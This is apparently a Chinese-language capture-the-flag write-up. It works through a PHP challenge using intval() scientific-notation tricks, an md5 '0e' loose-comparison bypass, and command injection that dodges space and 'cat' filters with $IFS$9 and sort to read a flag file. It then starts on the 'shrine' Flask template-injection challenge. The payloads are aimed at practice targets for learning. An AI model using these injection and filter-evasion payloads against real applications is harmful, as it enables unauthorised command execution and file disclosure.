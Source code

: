 ```php
?> 
```

**intval()绕过：** ``intval($num)<2020 && intval($num+1)>2021``。知识点 -> **如果 intval()函数参数填入科学计数法的字符串，会以e前面的数字作为返回值**，而对于**科学计数法的字符串+数字**则会将之前的字符串类型转换为数字型。

例如：

```php
<?php
$num = "2e3";
echo intval($num)."\n"; //得到2
echo intval($num + 1);  //得到2001
?>
```

既然得到了我们想要的结果，开始实践，构造：``?num='1e4'``，???失败了。

猜测可能是传入num值后台会自动转成字符串，由于开启了``error_reporting(0)``，也看不见报错。重新构造：``?num=1e4``，成功越过第一重障碍。

第二层就是常见的md5绕过，要求``$md5 == md5($md5)``，直接构造：``?num=1e4&md5=0e215962017``，成功。

第三层，要求输入的参数中不能有空格，且不能有cat否者会替换掉，然后就会将我们的参数命令执行。

先看看有什么，``?num=1e4&md5=0e215962017&get_flag=ls``

[![WZHJ7q.png](https://z3.ax1x.com/2021/07/14/WZHJ7q.png)](https://imgtu.com/i/WZHJ7q)

很明显了，其他的我们都访问过了，就是这个最长的文件为我们要获取的。

取代cat的有很多，如：``tac，more，nl，sort......``。空格我们也有代替的，可以用``$IFS$9, ${IFS}, ``代替。

所以最终payload为 ：``?num=1e4&md5=0e215962017&get_flag=sort$IFS$9fllllllllllllllllllllllllllllllllllllllllaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaag``。

### [WesternCTF2018]shrine

进入后得到:

```python
#import flask
#import os

#app = flask.Flask(__name__)

#app.config['FLAG'] = os.environ.pop('FLAG')

#@app.route('/')
#def index():
    #return open(__file__).read()

#@app.route('/shrine/<path:shrine>')
#def shrine(shrine):

    #def safe_jinja(s):
        #s = s.replace('(', '').replace(')', '')
        #blacklist = ['config', 'self']
        #return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist]) 
        #+ s

        #自己加的注释  不然报错
    #return flask.render_template_string(safe_jinja(shrine))

#if __name__ == '__main__':
    #app.run(debug=True)
```
